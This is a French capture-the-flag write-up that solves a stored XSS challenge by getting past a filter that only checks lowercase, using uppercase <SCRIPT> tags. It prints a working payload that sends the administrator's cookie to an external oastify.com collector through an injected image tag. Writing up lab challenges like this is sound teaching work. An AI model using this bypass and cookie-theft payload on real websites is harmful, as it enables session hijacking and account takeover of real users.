 ```yaml
---
title: "XtraSuperSecure"
date: 2023-06-13T09:03:20-08:00
draft: false
---
```


# OpenCycom 2023 - XtraSuperSecure - *200 pts*

## Énoncé
Donnez votre avis sur l'évènement (et essayez de voler les cookies de l'administrateur) !

## Solution

Bon, je dois voler les cookies de l'admin, donc on est surement face à des attaques côté client (XSS ou CSRF). Le titre du chall nous donne également un indice sur la vulnérabilité à exploiter (XtraSuperSecure => XSS).

Ici, lorsque je laisse un message, il apparait dans une liste en bas de la page, qui se réinitialise quand l'admin passe regarder les avis.

![](/images/016/01.png)

Je peux essayer d'insérer un payload XSS basique, avec une balise `script`.

![](/images/016/02.png)

Mais on dirait qu'une protection est en place pour empêcher les attaques XSS.

![](/images/016/03.png)

Pas de panique, on peut essayer de contourner la protection en utilisant diverses techniques, et après quelques essais, on trouve que la sanitisation ne s'effectue que sur les caractères minuscules.

Du coup un payload comme `<SCRIPT>alert(1)</SCRIPT>` fonctionne !

![](/images/016/04.png)

![](/images/016/05.png)

On remarque que la balise script est correctement écrite et interprétée correctement par le navigateur.

![](/images/016/06.png)

À partir de là, nous pouvons crafter un payload qui va exfiltrer les cookies de l'administrateur vers une page web que nous contrôlons. Pour ce faire, on peut utiliser des services comme `Beeceptor` ou `RequestBin`.

Ici, mon script ajoute une simple balise `img`, qui va charger une image sur mon site malveillant, avec le cookie de l'administrateur.

```<SCRIPT>document.body.innerHTML = `<IMG src='http://oxpw0avtydduwu22k93fc71el5rwfn5bu.oastify.com/${document.cookie}'></IMG>`</SCRIPT>```

![](/images/016/07.png)

On attend un peu, et le flag apparait !

![](/images/016/08.png)

*FLAG : OPC{b0y\*\*\*\*\*\*\*\*\*\*}*
